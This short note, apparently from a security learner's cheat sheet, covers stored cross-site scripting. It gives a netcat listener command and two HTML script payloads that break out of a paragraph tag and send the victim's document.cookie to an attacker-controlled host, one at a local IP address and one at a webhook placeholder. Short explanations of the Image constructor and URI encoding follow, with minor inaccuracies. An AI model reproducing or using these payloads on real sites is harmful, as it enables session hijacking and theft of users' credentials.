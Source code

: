 
```sh
nc -nvlp 4444
```

stored xss

 `escape <p> tag first`

```html
</p> <script>new Image().src="http://192.168.57.5:4444/?"+ encodeURI(document.cookie);</script>
```

```html
</p><script>var i=new Image;i.src="webHookAddress/?"+document.cookie;</script>
```

new Image() contructor create an image object
it is similar to

document.createElement("image")

The encodeURIComponent() function encodes a URI by replacing each instance of certain characters by one, two, three, or four escape sequences representing the UTF-8

